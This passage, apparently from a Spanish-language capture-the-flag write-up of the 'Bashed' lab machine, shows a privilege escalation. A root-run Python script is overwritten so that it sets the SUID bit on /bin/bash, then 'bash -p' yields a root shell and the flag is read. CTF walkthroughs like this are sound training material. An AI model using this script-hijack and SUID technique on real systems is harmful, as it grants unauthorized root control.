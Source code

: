```bash
scriptmanager@bashed:/scripts$ ls -l 
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Jan 26 14:59 test.txt
scriptmanager@bashed:/scripts$ cat test.py 
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt 
testing 123!
```

Revisaremos primeramente que el binario de `/bin/bash` no se encuentre con permisos de SUID.

```bash
scriptmanager@bashed:/scripts$ find / -perm -4000 2>/dev/null
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
/bin/ping6
```

Editaremos el archivo mencionado y le indicaremos que ejecute las siguientes instrucciones. Lo que realizará es dar permisos de `SUID`al binario.

```bash
scriptmanager@bashed:/scripts$ cat test.py
import os

os.system("chmod u+s /bin/bash")
```

Revisaremos que se han asignado correctamente los permisos indicados.

```bash
scriptmanager@bashed:/scripts$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
```

Abusaremos de estos permisos y nos convertiremos en el propietario del binario y comprobamos que somos actualmente el usuario `root`. Visualizamos la flag de **root.txt**.

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
47e69ba25e4e8e*******************
```
